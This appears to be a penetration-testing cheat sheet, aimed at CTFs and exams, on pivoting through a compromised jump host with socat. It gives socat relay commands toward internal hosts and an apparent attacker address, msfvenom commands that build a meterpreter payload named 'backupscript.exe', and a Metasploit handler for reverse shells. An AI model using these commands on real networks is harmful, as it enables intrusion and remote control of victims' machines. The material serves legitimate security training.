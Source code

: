 ```yaml
---
description: >-
  Socat is a easy tool to use when you want to port forward. It's a
  bidirectional relay tool that can create pipe sockets between 2 independent
  byte streams and transfer data between them.
---
```


# Socat

## **Starting Socat Bind Shell Listener (From Jump host)**

**These are three ways of achieving the same result.**&#x20;

```shell-session
victim@jump-host$ socat TCP4-LISTEN:8080,fork TCP4:172.16.5.19:8443
```

<pre class="language-shell-session"><code class="lang-shell-session"><strong>victim@jump-host$ socat -ddd TCP-LISTEN:2345,fork TCP:&#x3C;next_victim_ip>:5432
</strong></code></pre>

```shell-session
victim@jump-host$ socat TCP4-LISTEN:8080,fork TCP4:10.10.14.18:80
```

`172.16.5.19` & `next_victim_ip` are computers within the victim network.&#x20;

`8080` & `2345` is a port number we've decided to choose to use.

`8443` & `5432` is the port number of the service we're trying to connect to. (Web server & PostgreSQL)





## Metasploit can be useful for transferring binaries to a victim:

[_<mark style="color:red;">**NOTE:**</mark>_](#user-content-fn-1)[^1] This is obviously not practical in real world scenarios as metasploit is highly signatured and will be dropped by AV. However, for CTF's & Exams this can be a quick and useful way of achieving what you want.

**Creating the Windows Payload (Delivered to Windows host)**

_**LHOST:**_ Jump host IP address

```shell-session
attacker@attack-host$ msfvenom -p windows/x64/meterpreter/bind_tcp -f exe -o backupscript.exe LPORT=8443
```

**Configuring & Starting the multi/handler (on Attack host)**

```shell-session
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 80
lport => 80
msf6 exploit(multi/handler) > run

[*] Started HTTPS reverse handler on https://0.0.0.0:80
```





[^1]: 
